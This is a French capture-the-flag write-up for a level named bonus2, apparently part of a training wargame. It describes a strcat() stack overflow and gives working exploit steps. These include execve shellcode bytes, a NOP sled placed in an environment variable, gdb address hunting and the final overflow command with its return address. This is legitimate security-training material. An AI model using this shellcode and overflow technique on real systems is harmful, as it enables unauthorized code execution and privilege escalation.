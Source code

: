 ## bonus2

En désassemblant le binaire on observe deux fonctions: `main()` et
`greetuser()`. On voit également un appel a `getenv("LANG")`, plusieurs appel a `memcmp()`, et un appel a `strcat()` dans la fonction `greetuser()`.

Le binaire prend deux arguments qu'il va copier dans des buffers avec
`strncpy()`.

Les appels a `memcmp()` évalue la valeur de `LANG`, pour les string `nl` et
`fi`, et définis la globale `_language` a `0`, `1` ou `2`.

La string qui est affiché en sortie change selon la valeur de `_language`, mais
l'appel a `strcat()` est éffectué peut importe cette valeur.

Définissont donc la variable d'environnement `LANG` a `fi`, et lancons le
binaire avec gdb.

On va essayer de faire overflow l'appel a `strcat()`.

![image](https://user-images.githubusercontent.com/29956389/90021177-32556200-dcb1-11ea-81cc-3a22d43af3cc.png)

Le segfault est causé par le deuxieme argument. Localisons l'offset:

![image](https://user-images.githubusercontent.com/29956389/90021443-90824500-dcb1-11ea-83f2-604ed34a7c32.png)

![image](https://user-images.githubusercontent.com/29956389/90021555-b871a880-dcb1-11ea-8385-e44c453d2c43.png)

L'offset est a 18.

On insère donc notre shellcode + nopsled dans l'environnement:

`$ echo -ne
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' > /tmp/shellcode.bin`

`$ export SLEDCODE=$(python -c 'print "\x90"*420')$(cat /tmp/shellcode.bin)`

On localise l'adresse du sled:

`(gdb)> x/4s *((char**)environ)`

Commande a laquelle nous ajoutons +1 jusqu'a trouver l'adresse de la variable
environ, puis nous cherchons l'adresse de la variable suivante.

Nous faisons ensuite la difference de ces deux adresses pour avoir la marge de
notre sled, puis nous divison cette difference par deux pour aller au millieu,
et enfin nous ajoutons le resultat de cette division a l'adresse de la variable
SHELCODE pour diriger notre code au millieu de notre nopsled.

une fois cette addresse obtenue, nous la faisons passer dans le second argument
de notre exploit: 

`$ ./bonus2 $(python -c 'print [40 bytes de remplissage]') $(python -c 'print [18 bytes de remplissage] + [Adresse nopsled]')`

Soit:

`$ ./bonus2 $(python -c 'print "A"*40') $(python -c 'print "i"*18 +
"\x05\xf8\xff\xbf"')`

![image](https://user-images.githubusercontent.com/29956389/90023240-ca544b00-dcb3-11ea-9769-3236d13ffefd.png)
